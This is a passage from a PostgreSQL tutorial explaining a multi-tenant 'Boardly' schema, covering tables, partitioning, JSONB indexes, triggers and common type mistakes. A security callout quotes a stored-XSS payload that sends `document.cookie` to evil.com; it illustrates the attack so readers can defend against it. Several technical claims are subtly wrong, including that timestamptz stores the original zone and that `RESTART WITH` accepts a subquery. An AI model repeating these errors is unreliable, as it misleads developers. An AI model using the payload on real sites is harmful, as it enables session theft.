Comments in Boardly are immutable after creation — you post one, you cannot edit it. (If you want edit, you delete and re-post, or you version the body.) Adding `updated_at` to a table that's never updated is dead weight. The principle: each column earns its place. If you cannot name the operation that updates a column, do not add the column. `tasks` *does* have an `updated_at` because the title, description, status, assignee, and due_at all change over a task's lifetime.


**Warning — Debugging: `ON DELETE SET NULL` on `assignee_id` requires the column to be nullable — and the FK index becomes a write bottleneck under load.**

The symptom: `ERROR: column "assignee_id" is marked NOT NULL but SET NULL was requested` during a migration that flips the column from nullable to non-nullable while keeping the `SET NULL` rule. The diagnosis: `SET NULL` is impossible on a `NOT NULL` column; PostgreSQL 17 refuses to accept the constraint. The fix is two-step: (a) make the column nullable (`ALTER TABLE tasks ALTER COLUMN assignee_id DROP NOT NULL`), then (b) re-apply the FK with `SET NULL`. The second issue — the FK index `tasks_assignee_id_idx` — is a write bottleneck on hot tables because every UPDATE to `assignee_id` rewrites the index entry; on a 10M-row `tasks` table with 1000 assignee changes/sec, the index write amplification can saturate the WAL. Consider `DEFERRABLE INITIALLY DEFERRED` to batch the constraint check to commit time. Verify with `psql -d academy -c "EXPLAIN ANALYZE UPDATE tasks SET assignee_id = '00000000-0000-0000-0000-000000000000' WHERE id = '00000000-0000-0000-0000-000000000000';"` and look at the index-write time; cross-link to [[08-PostgreSQL/EXPLAIN-ANALYZE-and-Query-Plans]].


### Lines 65–73: The `memberships` table

```sql
CREATE TABLE memberships (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 user_id uuid NOT NULL REFERENCES users(id) ON DELETE CASCADE,
 organization_id uuid NOT NULL REFERENCES organizations(id) ON DELETE CASCADE,
 role membership_role NOT NULL DEFAULT 'member',
 created_at timestamptz NOT NULL DEFAULT now(),
 CONSTRAINT memberships_user_org_uniq UNIQUE (user_id, organization_id)
);
CREATE INDEX memberships_user_id_idx ON memberships (user_id);
CREATE INDEX memberships_organization_id_idx ON memberships (organization_id);
```

**What this does:** Creates the `memberships` table — the Association Object between `users` and `organizations`. SQL counterpart of 07-SQLAlchemy's `Membership` model: same composite uniqueness on `(user_id, organization_id)`, same `CASCADE` on both FKs, same `role` column (here tightened from 07's `String(20)` to the `membership_role` enum).

**Why both FKs use `CASCADE`:** a Membership is a *join row*; its existence is meaningless without both endpoints. If either the user or the organization is deleted, the Membership should disappear. This is the canonical `CASCADE` use case — child rows whose existence is meaningless without the parent.

**Why `memberships` is not just an association table:** a plain association table (the SQLAlchemy `Table("memberships", Base.metadata, Column(...))` form) has only the two FK columns and no row of its own. `Membership` is an Association Object (a full mapped class) because it has data of its own: `role` (and in 07-SQLAlchemy, `created_at`). The `id` PK on this table is the SQL reflection of that — a row with its own identity, not just a join row.

**The `memberships_user_org_uniq` constraint vs an association table**

07-SQLAlchemy declared `UniqueConstraint("user_id", "organization_id", name="uq_memberships_user_org")`. The SQL version is `CONSTRAINT memberships_user_org_uniq UNIQUE (user_id, organization_id)`. Same intent: a user joins an organization at most once. The unique constraint is what makes the `Membership` row an Association Object (with a meaningful existence per (user, org) pair) rather than a join row (which would allow duplicates).


### Lines 81–89: The `audit_log` table

```sql
CREATE TABLE audit_log (
 id bigint GENERATED ALWAYS AS IDENTITY PRIMARY KEY,
 action text NOT NULL,
 target_id uuid,
 actor_id uuid,
 occurred_at timestamptz NOT NULL DEFAULT now(),
 payload jsonb NOT NULL DEFAULT '{}'::jsonb
);
```

**What this does:** Creates the audit log — the internal-only record of every privileged operation on Boardly entities ("user X archived project Y at T", "admin Z deleted user W at T"). This table is an *additional* Boardly table — it does not exist in 07-SQLAlchemy's `models.py`. It exists here because PostgreSQL gives us `bigint IDENTITY` (a typed sequence with explicit ownership) and a place to demonstrate it on a high-volume internal-only table.

**Why `bigint IDENTITY` here, `uuid` everywhere else:**

- Audit log rows are **internal**. They never appear in URLs. They never get exported to clients. They are read by internal dashboards that page by `id`.
- Audit log rows are **append-only and high-volume**. A `bigint` is 8 bytes; a `uuid` is 16 bytes. On a table that grows by 10M rows a month, the storage difference compounds.
- A `bigint IDENTITY` is **monotonically increasing**, so inserts append to the end of the B-tree index — no page splits. A v4 UUID is random, so inserts hit random B-tree pages, causing splits and cache pressure. For an append-heavy table, monotonic wins.

**Why `target_id` and `actor_id` are `uuid` (not FK):** the audit log references Boardly entities that may later be deleted. An FK with `ON DELETE RESTRICT` would block the deletion; an FK with `ON DELETE CASCADE` would silently erase the audit trail. Neither is acceptable. The audit log deliberately keeps `target_id` and `actor_id` as plain `uuid` columns (no FK) so it survives the deletion of any referenced row.

**Example — IDENTITY vs SERIAL — the lifecycle difference**

`bigserial` is a PostgreSQL shortcut that creates a sequence, sets it as the column default, and applies `NOT NULL`. It works. But:
1. `bigserial` is not SQL-standard. Other databases don't have it. `GENERATED ALWAYS AS IDENTITY` is the SQL:2003 standard, and you'll meet it in Oracle, DB2, and others.
2. The sequence created by `bigserial` is *owned* by the column, but the ownership is set implicitly and can be lost during manual `ALTER`. `IDENTITY`'s ownership is explicit.
3. `GENERATED ALWAYS` *rejects* an explicit `INSERT id=42`. `GENERATED BY DEFAULT` *allows* it (useful for migrations with preserved IDs). `bigserial` is always `BY DEFAULT` — which means an application can collide with the sequence by inserting an explicit `id` and forgetting to bump `setval`. `GENERATED ALWAYS` prevents this entirely.
4. Dropping a `bigserial` column sometimes orphans the sequence (PostgreSQL 16 improved this; 17 closes the corner cases). Dropping an `IDENTITY` column drops the sequence cleanly.
The rule: new tables use `bigint GENERATED ALWAYS AS IDENTITY`. Reserve `bigserial` for legacy compatibility.


**Student asks: how do I move 50 million rows from a `bigserial` table to a `bigint GENERATED ALWAYS AS IDENTITY` table without taking downtime?**

Three-step expand-contract pattern. **Step 1 — expand.** Add the new column `new_id bigint GENERATED ALWAYS AS IDENTITY` alongside the existing `id` (the `bigserial`). It starts at 1; existing rows are unaffected. **Step 2 — backfill in place.** The new IDENTITY column is auto-populated on every INSERT — but the *existing* rows from before the column was added all get `new_id = NULL` because PostgreSQL does not retroactively assign IDENTITY values to rows that pre-existed. So you have to assign them: `UPDATE tbl SET new_id = gen_random_uuid()::bigint` is wrong (collisions); the right tool is a sequence: `CREATE SEQUENCE tmp_seq; UPDATE tbl SET new_id = nextval('tmp_seq'); SELECT setval('tmp_seq', (SELECT max(new_id) FROM tbl));` then drop `tmp_seq` and bump the IDENTITY sequence to start above the max: `ALTER TABLE tbl ALTER COLUMN new_id RESTART WITH (SELECT max(new_id) + 1 FROM tbl);`. Run the backfill in batches of 100k rows with a small `pg_sleep` between batches to avoid locking the table. **Step 3 — contract.** Once `new_id` is populated for all rows and the IDENTITY sequence is advanced past the max, swap: drop the `bigserial` column, rename `new_id` to `id`, and update any foreign keys that referenced the old `id` to point at the new one. Each step is reversible. The whole operation is non-blocking if you batch the backfill. The pattern is identical to the rename migration in [[09-Alembic-Migrations/Autogenerate-and-Its-Limits]]: never `DROP COLUMN` while data depends on it; always add the new one alongside, backfill, then drop.


**Production reality: append-only tables need partition-by-month to keep `VACUUM` from bloating the heap and the planner stats.**

The pattern: `audit_log` grows by 10 M rows/month, no `UPDATE`/`DELETE` ever runs against it. PostgreSQL's MVCC leaves dead tuples behind on every `UPDATE` and `DELETE` (there are none here), so `VACUUM` is a no-op on the dead-tuple front — *but* the table's heap grows unboundedly, `autovacuum`'s `reltuples` estimate drifts, and planner stats go stale. Fix: partition `audit_log` by month (`PARTITION BY RANGE (occurred_at)`) so a `VACUUM` of one partition is fast and a detached partition can be archived to cold storage (`ALTER TABLE audit_log DETACH PARTITION audit_log_2026_09; pg_dump ... ; DROP TABLE audit_log_2026_09`). The same pattern applies to `events` (already partitioned). Verify with `psql -d academy -c "SELECT relname, n_live_tup, n_dead_tup, last_vacuum, last_autovacuum FROM pg_stat_user_tables WHERE relname IN ('audit_log', 'events');"` and watch `n_dead_tup` stay near 0; cross-link to [[08-PostgreSQL/EXPLAIN-ANALYZE-and-Query-Plans]].


### Lines 91–99: The partitioned `events` table

```sql
CREATE TABLE events (
 id bigint GENERATED ALWAYS AS IDENTITY,
 kind text NOT NULL,
 occurred_at timestamptz NOT NULL,
 payload jsonb NOT NULL DEFAULT '{}'::jsonb,
 PRIMARY KEY (id, occurred_at)
) PARTITION BY RANGE (occurred_at);

CREATE TABLE events_2026_10 PARTITION OF events
 FOR VALUES FROM ('2026-10-01') TO ('2026-11-01');
```

**What this does:** Creates a partitioned table for Boardly time-series events ("project viewed", "task moved", "comment posted") with one monthly partition. Like `audit_log`, this is an *additional* Boardly table not present in 07-SQLAlchemy; it exists here to teach PostgreSQL partitioning on a high-volume table that the Boardly app would realistically produce.

**Why partition by `occurred_at`:** Time-series queries are almost always "the last 90 days." Partition pruning means the planner scans only the relevant partitions. A BRIN index on `occurred_at` (covered in Lesson 2) becomes near-free because each partition is naturally ordered.

**Why the primary key includes `occurred_at`:** Partition keys must be a subset of every unique constraint's columns. The default `PRIMARY KEY (id)` would not include `occurred_at` and would be rejected. The composite `PRIMARY KEY (id, occurred_at)` satisfies the rule and still uniquely identifies a row.

**Why `kind text` and not `kind event_kind AS ENUM (...)`:** the set of event kinds is open-ended and grows over time ("project_viewed", "task_moved", "comment_posted", "task_archived", ...). An enum would require `ALTER TYPE ... ADD VALUE` for each new kind; a `text` column with a `CHECK (kind ~ '^[a-z_]+$')` regex is open-ended and the regex can be tightened later. The rule from the enum section above applies: enums for stable short lists, `text` (with a regex) for open-ended lists.

**Tip — Partitioning is for time-series and for very large tables**

A partitioned table has planner overhead (the planner has to enumerate partitions on every query). For a 1M-row table, partitioning slows you down. For a 1B-row time-series table, partitioning is the only thing that keeps queries fast and `VACUUM` tractable. The threshold rule: partition when a single table exceeds ~100M rows, or when a clear pruning predicate (like a time range) is on every query.


### Lines 102–105: The JSONB GIN indexes

```sql
CREATE INDEX users_metadata_gin ON users USING GIN (metadata);
CREATE INDEX projects_metadata_gin ON projects USING GIN (metadata);
CREATE INDEX organizations_metadata_gin ON organizations USING GIN (metadata);
```

**What this does:** Creates a GIN (Generalized Inverted Index) on each Boardly `metadata` JSONB column.

**Why GIN for JSONB:** A B-tree cannot index the *contents* of a JSON document — it can only index the whole document as a comparable blob. A GIN is an *inverted index*: it maps each JSONB key/value (or each path) to a list of tuple IDs (TIDs) that contain it. So `WHERE metadata @> '{"color":"blue"}'` can be answered by intersecting TID lists, not by scanning the table.

**The cost:** A GIN index is *slow to update*. Each row insert or update can touch many inverted-list entries — potentially one per JSONB key in the document. PostgreSQL mitigates this with `fastupdate=on` (the default): new entries are batched in a pending list, and the pending list is flushed when it exceeds `gin_pending_list_limit` (default 4 MB). The trade-off: inserts are fast, but queries that hit the pending list are slower.

**Example — When JSONB beats a real column (and when it loses)**

**JSONB wins** when the data is genuinely schemaless per row — third-party webhook payloads, plugin configs, arbitrary user-supplied metadata, per-tenant settings that evolve. You don't know what keys you'll have tomorrow; a real column would require a migration every time a key is added.
**JSONB loses** to a real column when:
1. You query one path on every request (a real `color text NOT NULL` column is half the storage, half the index, and twice the speed).
2. You need a foreign key on a JSONB path — impossible.
3. You need uniqueness on a JSONB path — indexable, but the planner reasons poorly about it.
4. You need type checking — JSONB values are dynamically typed; `metadata->'count'` could be a number, a string, or null. A real `count integer` column enforces the type.
**The rule:** the third time you index a JSONB path, promote it to a real column. JSONB is for "maybe query" data; a real column is for "always query" data.


**Danger — Security: `metadata jsonb` is a code-injection sink if the application ever renders `metadata->>'html'` as HTML.**

The attack: a multi-tenant app lets each organization customise its dashboard HTML by storing `metadata = {"dashboard_html": "<script>fetch('//evil.com/?' + document.cookie)</script>"}`. The application renders `metadata->>'dashboard_html'` with `|safe` (Jinja) or `dangerouslySetInnerHTML` (React) and the stored XSS fires for every member of that organization on every dashboard load — a stored XSS primitive that survives logout/login because it's in the database. The fix is one of: (a) never render JSONB paths as HTML — always `metadata->>'value' | escape` (or the React equivalent: render as text); (b) sanitise with `nh3.clean` (Python's Rust ammonia bindings, not the abandoned `bleach`) at write-time, not read-time; (c) refuse HTML in `metadata` at the schema level with `CHECK (metadata::text !~ '<script')`. Verify with `psql -d academy -c "INSERT INTO organizations (slug, display_name, metadata) VALUES ('x','x','{\"html\":\"<script>alert(1)</script>\"}'::jsonb) ON CONFLICT DO NOTHING RETURNING metadata->>'html';"` and confirm the row is accepted — then your sanitiser must catch it; cross-link to [[11-Authentication-and-Security/OWASP-API-Top-10]].


### Line 108: The expression index

```sql
CREATE INDEX users_locale_idx ON users ((metadata->>'locale'));
```

**What this does:** Creates a B-tree index on the expression `metadata->>'locale'` — the `locale` field of the user's metadata, extracted as text. A Boardly organization's admin dashboard runs "show me all users in locale `fr-FR`" on every load; the expression index makes that query an Index Scan instead of a Seq Scan on `users`.

**Why an expression index, not a real column:** This is a compromise. We don't want to migrate `locale` to a real column yet (it's only on the user, and we're not sure it'll stick around). But the "show me all users in locale `fr-FR`" query runs on every dashboard load. So we index the expression.

**The `->>` operator:** PostgreSQL has two JSONB field-access operators:
- `->` returns the value as a JSONB scalar/object/array (preserving type).
- `->>` returns the value as text (always a string).

For an expression index, you almost always want `->>` — B-tree indexes on text are well-understood, and equality comparisons are simple. Indexing `->` (JSONB) is possible but the planner reasons about it less efficiently.

**Warning — The query must match the indexed expression exactly**

An expression index is used only when the query's predicate *matches the indexed expression*. `WHERE metadata->>'locale' = 'fr-FR'` uses the index. `WHERE metadata->'locale' = '"fr-FR"'` (note the JSON-string quotes) does *not* — the expressions are syntactically different. Be consistent.


**Student asks: when do I actually need a GIN index on a JSONB column, and when is it a waste?**

A GIN pays off only when you query the JSONB *contents* — that is, when your `WHERE` clause reaches into the document with one of the JSONB operator family (`@>`, `?`, `?|`, `?&`, `->`, `->>`, `#>>`). If your code only ever does `SELECT metadata FROM users WHERE id = $1` (read the whole document by PK), a GIN is dead weight: it costs writes (every INSERT/UPDATE touches the inverted list) and never speeds up a query. If your code does `SELECT id FROM users WHERE metadata @> '{"preferred_locale":"fr-FR"}'`, a GIN turns a Seq Scan into a Bitmap Index Scan — that is the moment a GIN earns its storage. The Boardly rule: declare the GIN the first time you write a `WHERE` clause that digs into the JSONB; do not declare it speculatively on a column you only ever read whole by PK.


**Warning — Debugging: an expression index is fragile to query rewrites — refactor `metadata->>'locale'` to `metadata #>> '{locale}'` and the index silently stops being used.**

The symptom: a refactor changes every `WHERE metadata->>'locale' = $1` to `WHERE metadata #>> '{locale}' = $1` (the two are semantically equivalent — both return text), and overnight the `users_locale_idx` expression index stops being used, the dashboard query becomes a Seq Scan, and p99 latency triples. The diagnosis: the planner matches expression indexes by *exact textual equality* of the indexed expression to the query expression; `->>` and `#>>` compile to the same SQL but the planner's `pg_index.indexprs` text is byte-different. Fix: when you refactor, update the index too — `DROP INDEX users_locale_idx; CREATE INDEX users_locale_idx ON users ((metadata #>> '{locale}'))`. Verify with `psql -d academy -c "EXPLAIN SELECT id FROM users WHERE metadata #>> '{locale}' = 'fr-FR';"` and confirm `Seq Scan` (broken), then `psql -d academy -c "EXPLAIN SELECT id FROM users WHERE metadata->>'locale' = 'fr-FR';"` and confirm `Index Scan using users_locale_idx` (working); cross-link to [[08-PostgreSQL/EXPLAIN-ANALYZE-and-Query-Plans]].


### Lines 111–118: The `touch_updated_at` trigger function

```sql
CREATE OR REPLACE FUNCTION touch_updated_at()
RETURNS trigger LANGUAGE plpgsql AS $$
BEGIN
 NEW.updated_at = now();
 RETURN NEW;
END;
$$;
```

**What this does:** Defines a PL/pgSQL trigger function that sets `NEW.updated_at = now()` before any UPDATE.

**Why a trigger, not application code:** The alternative is to make the application set `updated_at = now()` on every UPDATE. That works — until a developer forgets. Or a migration script runs an UPDATE without it. Or a `SECURITY DEFINER` function does an UPDATE without it. The trigger makes it impossible to forget: the database enforces it.

**What `NEW` is:** In a `BEFORE` trigger, `NEW` is the row being inserted or updated, as PostgreSQL is about to write it. Mutating `NEW` in the trigger mutates what gets written. `RETURN NEW` says "use this (possibly modified) row."

**The `$$` quoting**

The function body is wrapped in `$$ ... $$` instead of single quotes. This is *dollar-quoting* — a PostgreSQL convenience that avoids having to escape single quotes inside the function body. Without dollar-quoting, you'd write `'BEGIN\n\tNEW.updated_at = now();\n\tRETURN NEW;\nEND;'` which is ugly when the body contains string literals.


**Production reality: trigger functions are owned by `postgres` by default — applications connecting as a low-privilege role can *fire* the trigger but cannot `ALTER` it.**

The implication: a `BEFORE UPDATE` trigger that calls `now()` is fine (the function is `LEAKPROOF` and `SECURITY DEFINER` is unnecessary), but a trigger that calls `pg_notify()` to push to a Redis-backed listener is a privilege-escalation surface if the function is `SECURITY DEFINER` and owned by `postgres` — any role with `EXECUTE` on the function can trigger arbitrary side effects as `postgres`. Fix: write trigger functions as `SECURITY INVOKER` (the default) and grant `EXECUTE` only to the application role; for triggers that need elevated privileges (audit logging that writes to a separate schema), create a dedicated `audit_writer` role with `INSERT` only on `audit_log` and `SECURITY DEFINER` functions owned by that role, not by `postgres`. Verify with `psql -d academy -c "\\df+ touch_updated_at"` and confirm `Security = invoker`; cross-link to [[08-PostgreSQL/Roles-Permissions-Security]].


### Lines 119–135: The triggers themselves

```sql
CREATE TRIGGER users_touch_updated_at
 BEFORE UPDATE ON users
 FOR EACH ROW EXECUTE FUNCTION touch_updated_at();

CREATE TRIGGER projects_touch_updated_at
 BEFORE UPDATE ON projects
 FOR EACH ROW EXECUTE FUNCTION touch_updated_at();

CREATE TRIGGER organizations_touch_updated_at
 BEFORE UPDATE ON organizations
 FOR EACH ROW EXECUTE FUNCTION touch_updated_at();

CREATE TRIGGER tasks_touch_updated_at
 BEFORE UPDATE ON tasks
 FOR EACH ROW EXECUTE FUNCTION touch_updated_at();
```

**What this does:** Attaches the trigger function to the four Boardly tables that have an `updated_at` column (`users`, `projects`, `organizations`, `tasks`), firing before every row-level UPDATE. `comments` is intentionally omitted — comments are immutable after creation; there is no `updated_at` to maintain.

**Why `BEFORE` and `FOR EACH ROW`:**
- `BEFORE` lets you modify `NEW` before it hits the table. `AFTER` would fire after the write — too late to change `updated_at`.
- `FOR EACH ROW` fires once per affected row. The alternative `FOR EACH STATEMENT` fires once per statement, regardless of how many rows changed. We need per-row because we need to set `NEW.updated_at` on each.

## Execution Trace

What happens when you run the schema and insert a row.

```bash
# 1. Start PostgreSQL 17
docker run --rm -d --name pg-academy \
 -e POSTGRES_PASSWORD=academy -e POSTGRES_DB=academy \
 -p 5432:5432 postgres:17

# 2. Run the schema
docker cp boardly_schema.sql pg-academy:/tmp/boardly_schema.sql
docker exec -i pg-academy psql -U postgres -d academy -f /tmp/boardly_schema.sql

# 3. Insert an organization and a user
docker exec -i pg-academy psql -U postgres -d academy <<'EOF'
INSERT INTO organizations (slug, display_name, metadata)
VALUES ('acme', 'Acme Corp', '{"locale":"en-US","currency":"USD"}')
RETURNING id, slug, display_name, metadata, created_at;

INSERT INTO users (home_org_id, email, hashed_password, display_name, metadata)
VALUES (
 (SELECT id FROM organizations WHERE slug = 'acme'),
 'alice@example.com',
 '$argon2id$v=19$m=65536,t=3,p=4$abc...def',
 'Alice Adams',
 '{"locale":"fr-FR","slack":"alice"}'
)
RETURNING id, email, display_name, metadata, created_at;
EOF
```

Expected output (the UUIDs will differ):

```
 id | slug | display_name | metadata | created_at
--------------------------------------+--------+--------------+------------------------------------------------+-------------------------------
 6c7d8e2f-3a1b-4d9c-b5e2-1f2a3b4c5d6e | acme | Acme Corp | {"locale": "en-US", "currency": "USD"} | 2026-10-15 14:32:01.123456+00

 id | email | display_name | metadata | created_at
--------------------------------------+--------------------+--------------+------------------------------------------------+-------------------------------
 7a8b9c0d-1e2f-3a4b-5c6d-7e8f9a0b1c2d | alice@example.com | Alice Adams | {"locale": "fr-FR", "slack": "alice"} | 2026-10-15 14:32:01.234567+00
```



**You've just run a real PostgreSQL schema.**

Five tables, three enums, GIN indexes, an expression index, and a trigger — that is the structural spine of every multi-tenant app you will ever ship. The exact shape varies; the principles don't.


## Common Mistakes

### Mistake 1: Using `timestamp` instead of `timestamptz`

```sql
-- WRONG
created_at timestamp NOT NULL DEFAULT now()
```

**Symptom:** The server moves to a different timezone (or DST kicks in) and all your stored timestamps shift by hours. A `created_at` of "2026-10-15 14:32:00" was 14:32 in the old server's zone — but is it 14:32 UTC? 14:32 New York? 14:32 Tokyo? The database cannot tell you.

**Why:** `timestamp` (without time zone) stores a *wall-clock* time with no associated zone. `now()` returns the current time in the session's `TimeZone` setting, then strips the zone on insert into a `timestamp` column. The result: the stored value depends on the session's zone at insert time. Moving the server changes the session's zone, and new inserts are silently different from old ones.

**Fix:** Use `timestamptz` everywhere. See the dedicated section below for the deep dive on why.

**Danger — Security: `timestamp` (without time zone) hides the moment a security event occurred — auditors and incident responders cannot reconstruct the timeline.**

The attack scenario: an intrusion is detected at 03:00 UTC; the incident-response team queries `audit_log` for `occurred_at` between 02:00 and 04:00 and finds zero rows — because the column is `timestamp` and the application inserted rows as `'2026-10-15 02:30:00'` *interpreted in the application server's local zone* (say `America/New_York`), which is actually `07:30 UTC`. The team spends four hours reconciling local times to UTC before they can scope the breach. The fix is `timestamptz` everywhere — the moment is unambiguous and `WHERE occurred_at BETWEEN '2026-10-15 02:00:00+00' AND '2026-10-15 04:00:00+00'` returns the right rows regardless of session `TimeZone`. Verify with `psql -d academy -c "SET timezone='UTC'; SELECT occurred_at FROM audit_log WHERE occurred_at BETWEEN '2026-10-15 02:00:00+00' AND '2026-10-15 04:00:00+00';"` and confirm the time predicate is unambiguous; cross-link to [[08-PostgreSQL/Backups-and-Recovery]].


### Mistake 2: Defaulting to `serial`/`bigserial`

```sql
-- WRONG
id bigserial PRIMARY KEY
```

**Symptom:** A migration with an explicit `id` value collides with the sequence because `bigserial` is `GENERATED BY DEFAULT` — explicit inserts don't bump the sequence. Or: dropping the column orphans the sequence.

**Why:** `bigserial` is a PostgreSQL shortcut. It is not SQL-standard, it's `BY DEFAULT` (so explicit inserts collide), and its sequence ownership is implicit and fragile.

**Fix:** `id bigint GENERATED ALWAYS AS IDENTITY PRIMARY KEY`. SQL-standard, rejects explicit inserts, owns its sequence cleanly.

### Mistake 3: Using `varchar(255)` everywhere

```sql
-- WRONG (cargo culted from MySQL)
email varchar(255) NOT NULL
```

**Symptom:** No symptom — until a user with a 256-character email (legal per RFC 5321) is rejected, or until you have to migrate to `varchar(320)` and rewrite every check constraint.

**Why:** The `varchar(255)` reflex comes from MySQL, where indexes on `varchar` columns used to be limited to 255 bytes (later 767, then 3072). PostgreSQL has no such limit. `varchar(n)` is just `text` with a length check.

**Fix:** Use `text` by default. Use `varchar(n)` only when you actually want a length check, and even then prefer a `CHECK (char_length(email) <= 255)` constraint for clarity.

### Mistake 4: JSONB columns with no GIN index

```sql
-- WRONG
metadata jsonb NOT NULL DEFAULT '{}'::jsonb
-- no index created
```

**Symptom:** Every `WHERE metadata @> ...` query is a Seq Scan. On a 10M-row table, that is seconds per query.

**Why:** Without an index, the only way PostgreSQL can answer `@>` is to scan every row and parse its JSONB. The whole point of JSONB (versus `json` text storage) is *queryability*. If you never query it, store the JSON as `text` and save the parse cost.

**Fix:** Add a GIN index, or use `jsonb_path_ops` for the smaller, `@>`-only variant.

### Mistake 5: JSONB columns queried on one path every request

```sql
-- WRONG (should be a real column)
metadata jsonb NOT NULL DEFAULT '{}'::jsonb
-- and every dashboard load runs WHERE metadata->>'locale' = ?
```

**Symptom:** The query is slow, the index is large, the planner reasons poorly about it. The application has to null-check and type-coerce the value every time.

**Why:** A JSONB path is dynamically typed and unindexed by default. A real `locale text NOT NULL` column is 8 bytes vs ~30 bytes for the JSONB document, half the index size, twice the query speed, and type-safe.

**Fix:** Promote `locale` to a real column. The rule: the third time you index a JSONB path, promote it.

### Mistake 6: Enum for a list that changes

```sql
-- WRONG (the set changes monthly)
CREATE TYPE discount_code AS ENUM ('black_friday', 'cyber_monday', 'summer_sale');
```

**Symptom:** Every new discount code requires `ALTER TYPE ... ADD VALUE`, a non-blocking but DBA-owned operation. The marketing team cannot self-serve.

**Why:** Enums are great for stable short lists. They are wrong for lists that change frequently — adding is cheap but requires DBA involvement; removing requires a full rebuild.

**Fix:** Use a lookup table. `discount_codes (id uuid, code text, name text, active boolean)`. Marketing can INSERT new rows from the application; DBA not involved.

### Mistake 7: Arrays of foreign keys

```sql
-- WRONG
CREATE TABLE tasks (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 project_id uuid NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
 assignee_ids uuid[] NOT NULL DEFAULT '{}'
);
```

**Symptom:** A deleted user is still in `assignee_ids` of a Task. No per-assignment role or assigned-at timestamp. Joins to `users` require `unnest(assignee_ids)`. Slow.

**Why:** A `uuid[]` cannot have a foreign key on each element. You lose referential integrity, per-assignment data, and join performance.

**Fix:** Use the Association Object pattern (already in the schema on `memberships`). For multi-assignee tasks: `task_assignees (task_id uuid, user_id uuid, role text, assigned_at timestamptz)` with FKs to `tasks` and `users`. The `memberships` table in this schema is the canonical example of the pattern.

### Mistake 8: `real` or `double precision` for money

```sql
-- WRONG
price real NOT NULL
```

**Symptom:** `0.1 + 0.2 = 0.30000000000000004`. Pennies vanish. Auditors cry.

**Why:** IEEE 754 floating-point cannot represent most decimal fractions exactly. `real` and `double precision` are floating-point types. Money is exact.

**Fix:** `price_cents bigint` (store cents, not dollars — never divide until display), or `price numeric(20, 2)` for exact decimal. Pick one and be consistent.

### Mistake 9: Defaulting `metadata` columns to `NULL`

```sql
-- WRONG
metadata jsonb
```

**Symptom:** Every caller has to null-check (`COALESCE(metadata, '{}'::jsonb) -> 'foo'`). Every query has to handle `metadata IS NULL`. Every index has to handle NULLs.

**Why:** NULL is a special value in SQL — it propagates through operators, it has special comparison semantics, it forces `OR ... IS NULL` clauses. For a column whose "empty" value is a clean "no extra data" `'{}'::jsonb`, NULL is the wrong default.

**Fix:** `metadata jsonb NOT NULL DEFAULT '{}'::jsonb`. Callers always get at least an empty object.

## Engineering Trade-Offs

### UUID vs `bigint IDENTITY` for primary keys

- **UUID** — 16 bytes, unguessable, merge-friendly, client-generatable. Slower inserts (random B-tree splits), bigger indexes, verbose in logs.
- **`bigint IDENTITY`** — 8 bytes, enumerable, monotonic. Faster inserts, smaller indexes, terse in logs.

The rule: UUID for any user-visible ID (`/users/{id}`, `/organizations/{id}`, `/projects/{id}`), any row that may be exported or synced, and anything where enumeration is a security risk. `bigint IDENTITY` for purely internal IDs that never leave the database (`audit_log`, `events`).

### JSONB vs normalized column

- **JSONB** — flexible schema, no migration to add a key, perfect for third-party-supplied fields. Slow to query without a GIN index, no type checking, no FK, no clean uniqueness.
- **Real column** — fast, type-safe, FK-able, UNIQUE-able. Requires a migration to add.

The rule: JSONB is for "maybe query" data; a real column is for "always query" data. The third index on a JSONB path is the migration trigger.

### Enum vs FK lookup table

- **Enum** — 4 bytes, ordered, OID-indexed, equality comparison is a fast OID match. Removing a value requires a rebuild.
- **Lookup table + FK** — flexible, self-documenting, allows per-value attributes. Joins are slower than enum equality; the FK column is a separate type.

The rule: enum for stable short lists; lookup table for everything else.

### `numeric` vs `bigint` for money

- **`numeric(20, 2)`** — exact decimal math, human-readable, slower than `bigint`.
- **`bigint` cents** — exact integer math, 8 bytes, fastest. Application must remember to divide by 100 in the UI.

Pick one and be consistent. Most modern payment systems use `bigint` cents — it is faster and unambiguous.

### Storing timestamps in UTC vs local

UTC always; display in local. `timestamptz` makes this automatic — the storage is UTC, the readout is the session's zone. There is no scenario where storing local time is correct.

### `timestamptz` vs `timestamp`: the deep dive

This gets its own subsection because the choice is the single most consequential type decision in your schema.

**`timestamptz`** ("timestamp with time zone") stores a *point in time*. Internally, it stores the UTC equivalent plus (display-only) the original time zone. On read, it converts to the session's `TimeZone` setting. So a row inserted as `'2026-10-15 14:32:00 America/New_York'` is stored as the UTC equivalent of that moment, and read out as `'2026-10-15 18:32:00+00'` in a UTC session, or as `'2026-10-15 14:32:00-04'` in a New York session. The *point in time* is identical; the *display* varies.

**`timestamp`** ("timestamp without time zone") stores a *wall-clock time* with no associated zone. A row inserted as `'2026-10-15 14:32:00'` is stored verbatim, with no zone. The database cannot answer "was this 14:32 in Tokyo or 14:32 in New York?" Your application will eventually have to — when a user in Tokyo views a row inserted by a user in New York, the displayed local time depends on the answer, and you do not have it.

```sql
-- Show the difference concretely.
SET timezone = 'UTC';
SELECT now(); -- 2026-10-15 14:32:00.123456+00

SET timezone = 'America/New_York';
SELECT now(); -- 2026-10-15 10:32:00.123456-04
-- Same point in time. Different display.

CREATE TABLE demo (id int, ts timestamp, tstz timestamptz);
INSERT INTO demo (id, ts, tstz) VALUES (1, now(), now());

SET timezone = 'UTC';
SELECT ts, tstz FROM demo;
-- ts | tstz
-- ----------------------------+-------------------------------
-- 2026-10-15 10:32:00 | 2026-10-15 14:32:00+00
-- (the wall-clock at insert, | (the moment, displayed in UTC)
-- in the session zone at insert)

SET timezone = 'Asia/Tokyo';
SELECT ts, tstz FROM demo;
-- ts | tstz
-- ----------------------------+-------------------------------
-- 2026-10-15 10:32:00 | 2026-10-15 23:32:00+09
-- (unchanged — no zone stored) | (the same moment, displayed in JST)
```

The classic footgun: storing `timestamp` (no zone), then moving the server to a different timezone, then finding all your stored timestamps are silently off by hours. With `timestamptz`, this never happens — the moment is preserved.

**Warning — The one legitimate use of `timestamp without time zone`**

A daily `cron_at` field that means "3 AM, in whatever zone the server happens to be in, run the job." Even then, the cleaner design is to store `cron_at timestamptz` plus a separate `cron_timezone text` column, so the moment is unambiguous. The legitimate cases are rare — default to `timestamptz`.


## Exercises

**Tip — The 20-minute rule**

If you're stuck on an exercise for more than 20 minutes, re-read the relevant section above, then move on and come back. Learning isn't linear.


